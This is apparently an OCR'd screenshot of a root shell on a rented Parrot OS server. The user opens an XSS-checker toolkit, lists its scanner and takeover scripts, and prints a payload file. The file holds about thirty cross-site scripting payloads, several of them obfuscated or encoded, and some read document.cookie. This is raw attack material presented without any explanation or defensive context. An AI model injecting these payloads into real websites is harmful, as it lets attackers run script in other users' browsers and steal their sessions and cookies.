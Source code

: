 Linux vmi1556068.contaboserver.net 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64
  _____
 / ___/___  _  _ _____ _   ___  ___
| |   / _ \| \| |_   _/ \ | _ )/ _ \
| |__| (_) | .` | | |/ _ \| _ \ (_) |
 \____\___/|_|\_| |_/_/ \_|___/\___/

Welcome!

This server is hosted by Contabo. If you have any questions or need help,
please don't hesitate to contact us at support@contabo.com.

Last login: Fri Sep 27 08:50:29 2024 from 106.216.233.85
root@vmi1556068:~# cd xss-checker-linux/
root@vmi1556068:~/xss-checker-linux# ls
backup          monitor       payloads  screenshots     urls.txty
crawl2.py       monitor.py    reports   sub.py          XSS.py
geckodriver     msdoamin.txt  results   takeover.py     xsstest1.py
mattetmost.txt  msxss.txt     SCAN2.py  truecaller.txt  xss_vibes
modules         output        SCAN.py   urls.txt
root@vmi1556068:~/xss-checker-linux# cd payloads/
root@vmi1556068:~/xss-checker-linux/payloads# cat 1000.txt
%20"><svg onload=alert(1)>
<style>jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e</style>
%0d%0a%20<img src=1 onerror=alert(1)>
"><svg onload=prompt(document.domain);>.php
%u0022%u003e%u003cscript%u003ealert%u0028%u0027Hello%u0027%u0029%u003c%u002fscript%u003e
"><img src=x onerror=prompt(document.domain);>
<img/src/onerror=alert(`ibro`)>
</title><script>alert(document.domain)</script>
<image src =q onerror=prompt(8)>
%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E
"><a>a</a><img src=x onerror=alert(document.cookie)>{{9-9}}';alert(0);://
<svg onload=alert(1)-->.aspx
%3Cimg%20src=x%20onerror=alert(1)%3E
><script>alert(123)</script>
<svg id=1 onload=confirm(1)>
<script>alert`1`</script>
<img src=x onerror=location=atob`amF2YXNjcmlwdDphbGVydChkb2N1bWVudC5kb21haW4p`>
%0d%0a%20"><img src=q onerror=alert(1)> \
<img ignored=() src=x onerror=prompt(1)>
guest/msft_a_guest_register.php?_browser=1&title="><svg/onload=alert(1)>window.name="<img src=x onerror=alert(23)>"
'">><marquee><img src=x onerror=confirm(1)></marquee>"></plaintext\></|\><plaintext/onmouseover=prompt(1)>
<script>with(document)alert(cookie)</script>
<svg onload=alert(1)-->.html
<Img Src=OnXSS OnError=confirm(1)>
"><link rel="stylesheet" href="style.css"><img src=x onerror=prompt(document.domain);>
<script>alert(1)</script>.aspx
<body onscroll=javascript:alert(1)><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>
<ScripT>alert(1234)</ScRipT>
<noframes><img title="</noframes><img src onerror=alert(1)>"></noframes><svg/%6f%6e/oNloaD=alert``>
">>>>>><marquee>RXSS</marquee></head><abc%3E</script><script>alert(document.cookie)</script><meta